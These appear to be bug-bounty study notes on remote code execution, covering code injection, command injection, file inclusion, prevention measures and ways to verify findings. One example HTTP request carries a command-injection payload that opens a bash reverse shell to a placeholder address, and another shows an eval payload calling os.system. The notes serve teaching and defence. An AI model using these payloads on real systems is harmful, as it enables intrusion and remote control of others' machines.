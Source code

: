 ### Remote Code Execution
#
* Occurs when arbitrary code is executed on a target machine.
* Two strategies: **Code injection & file inclusions**
* **Code injection: happens when unsanitized data is passed into executed code.**
* Example: Python's eval() accepts strings such as "1+1" and returns 2. If it accepts user
  input, you could pass Unix or Windows commands like _import_('os').system('ls') in the GET request.
* Theres a variant called a **command injection vulnerability** which concatenates user input into a 
  system command.
      * Example in HTTP request: GET /download?url="google.com; bash -i > & /dev/tcp/10.0.0.1/8080 0>&1"
* **File inclusion** vulnerabilities are categorized into remote and local file inclusion variants.
* Remote inclusions occur when files on a remote server are include and executed. Local inclusions involve including
  files uploaded to the target machine and executing them.
### Prevention
#
* Always treat user-supplied files as untrusted
* Disallow inclusion of remote files and create an allowlist for local ones.
* Limit file types and upload them to a seperate enviroment (sandbox).
* Use API calls instead of system calls. Most programming languages allow you to run system commands without risking injection.
* Strong input validation
* Web application firewalls
* Check your dependencies
* Principle of Least Privilege
### Hunting for RCE
#
* Execute harmless commands like whoami to verify a classic RCE vulnerability.
* Execute a command like sleep 5 to change system behavior for blind variants. If you had to wait 5 seconds before a response, you've verified it.
* Gather info on tech stack and test features.
* Privilege-escalation isnt appropriate in bug bounties. You may read sensitive data, create a POC report with harmless commands.
